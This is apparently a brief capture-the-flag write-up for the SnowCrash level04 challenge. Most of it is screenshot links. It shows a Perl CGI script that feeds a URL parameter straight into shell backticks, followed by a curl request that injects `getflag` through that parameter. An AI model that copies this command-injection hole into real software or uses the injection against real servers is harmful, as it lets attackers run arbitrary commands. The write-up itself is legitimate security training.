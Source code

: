 ![image](https://github.com/user-attachments/assets/5a276f3c-077c-4f13-b572-df191e644603)

![image](https://github.com/user-attachments/assets/afec7e89-9de1-4216-9479-25f7c7e55e12)

![image](https://github.com/user-attachments/assets/085d513d-7dc6-4b2c-89ef-8574d0d3f4c1)

![image](https://github.com/user-attachments/assets/c888db70-7096-4545-a2ad-dbf77416d8d4)

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
https://www.tutorialspoint.com/perl/perl_subroutines.htm

https://www.perl.com/article/perl-and-cgi/#why-not-to-use-cgi

https://metacpan.org/dist/CGI/view/lib/CGI.pod#Fetching-the-value-or-values-of-a-single-named-parameter
```
level04@SnowCrash:~$ curl 'http://localhost:4747/level04.pl?x=`getflag`'
```
![image](https://github.com/user-attachments/assets/390db6a7-889b-4a9b-99f1-7a325288c15b)

![image](https://github.com/user-attachments/assets/f252564f-cfb3-4278-976d-06e83465f6b9)


